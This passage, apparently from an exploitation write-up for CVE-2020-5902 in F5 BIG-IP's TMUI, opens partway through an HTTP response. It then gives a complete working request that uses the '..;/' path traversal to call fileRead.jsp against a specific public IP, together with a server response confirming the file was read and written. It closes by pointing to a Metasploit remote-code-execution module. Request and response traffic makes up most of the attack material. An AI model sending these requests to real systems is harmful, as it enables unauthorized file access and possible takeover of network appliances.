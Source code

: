 ```http
Date: Mon, 06 Jul 2020 02:05:29 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 4
Connection: close
```

#### File Read /tmp/1.txt

```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/1.txt HTTP/1.1
Host: 74.115.70.72
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Mon, 06 Jul 2020 02:06:07 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 32
Connection: close

{"output":"CVE-2020-5902\n"}
```

#### upload /tmp/1.txt Successful ！

### 0x0904MSF

[
https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb](https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb)

